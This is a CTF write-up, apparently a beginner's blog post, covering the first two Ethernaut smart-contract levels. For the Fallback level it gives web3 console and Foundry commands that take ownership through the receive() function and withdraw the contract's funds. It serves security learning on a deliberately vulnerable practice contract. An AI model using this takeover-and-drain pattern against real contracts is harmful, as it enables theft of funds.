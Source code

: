 +++
title = "Ethernaut Challenge Solutions"
date = "2024-06-03"
description = "Walkthroughs for Ethernaut CTF challenges, covering vulnerabilities and exploitation techniques."
+++

Hello peeps, recently have started learning things about blockchain.Most probably ethernaut would be the first place where people will land to get their hands dirty. I too landed here and I have noted things that I learned through out this CTF challenges.

# Introduction
Ethernaut is a foundational platform for hands-on smart contract security practice. Below are my solutions for the first two challenges, highlighting key vulnerabilities and attack vectors.  
Everytime you got a challenge, start with a click on `Get new instance`. Once you done with it click on `Submit level` option.

# 1: Hello Ethernaut
**Link:** https://ethernaut.openzeppelin.com/level/0  
**Bug:** Sensitive data exposure  
**Objective:** Familiarize yourself with contract interaction via the browser console  
**Steps:**  
- As they mentioned in the problem statement,let's open the console tab and execute `await contract.info()`. let move forward with response it gives back

![eth-1.png](../images/eth-1.png)

**Note:** You might be wondering how can I know that I need to execute the `await contract.password()` to get the password to authenticate. I strongly believe there might be a variable exist which is being checked in authenticate function. So I checked all the function and variables available in contract with the help of console suggestion whenever we add `await contract`.

# 2: Fallback
**Link:** https://ethernaut.openzeppelin.com/level/1  
**Bug:** Improper ownership transfer in receive() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who contributes more through `contribute()` function. But in the fallback function, I mean in the receive() function it is giving the ownership if you just send more than 0 eth and if you already contributed more than 0 eth using contribute() function.  
**Steps:**
1. make a call to contribute() function to contribute some eth.
2. now make a call to receive() function with some eth
3. call withdraw function to get all the funds from contract.

**Using Console:**
```shell
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: web3.eth.abi.encodeFunctionSignature("contribute()"),
            value: 10**10
        
        }
    )
    
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: '',
            value: 10**10
        }
    )
```

**Using Foundry:**
    I usually use foundry. In foundry setup, we have a tool called `cast` to interact with contracts. You can follow the below commands.
```shell
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "contribute()" --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_U
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E  --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "withdraw()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```


